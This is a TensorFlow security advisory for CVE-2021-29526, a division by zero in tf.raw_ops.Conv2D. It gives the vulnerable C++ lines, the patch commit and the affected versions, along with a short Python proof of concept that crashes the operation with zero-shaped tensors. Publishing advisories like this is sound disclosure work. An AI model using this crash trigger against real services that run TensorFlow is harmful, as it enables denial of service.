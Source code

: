 ## TFSA-2021-015: Division by 0 in `Conv2D`

### CVE Number
CVE-2021-29526

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.Conv2D`:

```python
import tensorflow as tf

input = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
filter = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)

strides = [1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.Conv2D(input=input, filter=filter, strides=strides, padding=padding)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/988087bd83f144af14087fe4fecee2d250d93737/tensorflow/core/kernels/conv_ops.cc#L261-L263) does a division by a quantity that is controlled by the caller:

```cc
  const int64 patch_depth = filter.dim_size(2);
  if (in_depth % patch_depth != 0) { ... }
```

### Patches
We have patched the issue in GitHub commit
[b12aa1d44352de21d1a6faaf04172d8c2508b42b](https://github.com/tensorflow/tensorflow/commit/b12aa1d44352de21d1a6faaf04172d8c2508b42b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
